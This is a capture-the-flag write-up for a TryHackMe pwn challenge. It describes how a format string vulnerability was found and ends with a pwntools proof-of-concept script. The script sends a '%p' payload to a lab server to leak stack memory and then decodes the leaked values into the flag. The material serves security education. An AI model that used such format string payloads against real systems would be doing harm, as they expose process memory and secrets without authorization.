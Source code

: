 **THM - PWN101 - Format String (PWN106)**


## **Gathering information**

### **Binary behaviour**

Binary takes input user and displays it (if you look at the screen below, you can see some strange behaviour when we provided `%f` - we can suspect that binary is vulnerable to format string attack).


![](p/1.png)


### **File protections**


![](p/2.png)


Well, binary has a good protection, so performing buffer overflow attack can be really hard or impossible.


## **Reversing binary**


![](p/3.png)


At line 16th we can see that there is no input validation and the program prints whatever we want - that can be leveraged to perform *format string attack*. Now, we can look for some interesting strings to do that we can use `izz` in `radere2`.


![](p/4.png)



### **Exploitation (Proof Of Concept)**

```python
from pwn import *

# Receiving content

process = remote('10.10.165.139','9006')
process.recv()
process.sendline("%6$p %7$p %8$p %9$p %10$p %11$p")
content = process.recvline_contains("Thanks", timeout=2)

print("[*] Got a content:\n")
print(content)

# Building flag from content

flag = re.search(r"(0x[0-9a-f]+) (0x[0-9a-f]+) (0x[0-9a-f]+) (0x[0-9a-f]+) (0x[0-9a-f]+) (0x[0-9a-f]+)$", content.decode(), re.IGNORECASE)

flag_groups = (
    int(flag.group(1),16),
    int(flag.group(2),16),
    int(flag.group(3),16),
    int(flag.group(4),16),
    int(flag.group(5),16),
    int(flag.group(6),16),
)

final_flag = ""

for g in flag_groups:
    for i in range(8):
        final_flag += (chr(g >> (i * 8) & 0xff))

print(final_flag)
```


![](p/5.png)


We successfully expolited format string vulnerability and we got our flag.
